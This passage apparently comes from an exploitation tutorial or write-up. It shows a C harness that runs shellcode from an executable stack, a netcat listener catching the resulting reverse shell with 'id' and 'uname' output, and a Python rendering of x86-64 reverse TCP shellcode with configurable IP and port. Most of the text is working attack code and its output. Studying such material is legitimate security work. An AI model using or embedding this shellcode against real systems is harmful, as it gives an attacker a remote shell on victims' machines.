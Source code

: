 ```c
{
    printf("Shellcode Length: %d\n", (int)sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
    return 0;
}
```

The test harness has to be compiled with the `-z execstack` flag to allow
calling into the shellcode.

```shell
$ gcc -zexecstack -o reverseshell reverseshell.c
$
```

To test this out, we can start a netcat listener on port 1337 and run the
harness.

```shell
$ ./reverseshell
Shellcode Length: 118
```

On the netcat end:

```shell
$ nc -l -v -p 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from [127.0.0.1] port 1337 [tcp/*] accepted (family 2, sport 44496)
id
uid=1000(ubuntu) gid=1000(ubuntu)
groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),
30(dip),44(video),46(plugdev),109(netdev),110(lxd)
uname -a
Linux ubuntu-xenial 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC
2017 x86_64 x86_64 x86_64 GNU/Linux
^C
```

Now we can just convert this into python:

```python
# Reverse Shell TCP Shellcode adapted from Russell Willis

ip_addr = "127.1.1.1"
ip_addr_packed = socket.inet_aton(ip_addr)
port = 1337
port_packed = p16(port, endian="big")
shellcode = (
        "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a" +
        "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0" +
        "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24" +
        "\x02"+ port_packed + "\xc7\x44\x24\x04" + ip_addr_packed+
        "\x48\x89\xe6\x6a\x10" +
        "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48" +
        "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a" +
        "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54" +
        "\x5f\x6a\x3b\x58\x0f\x05")
```
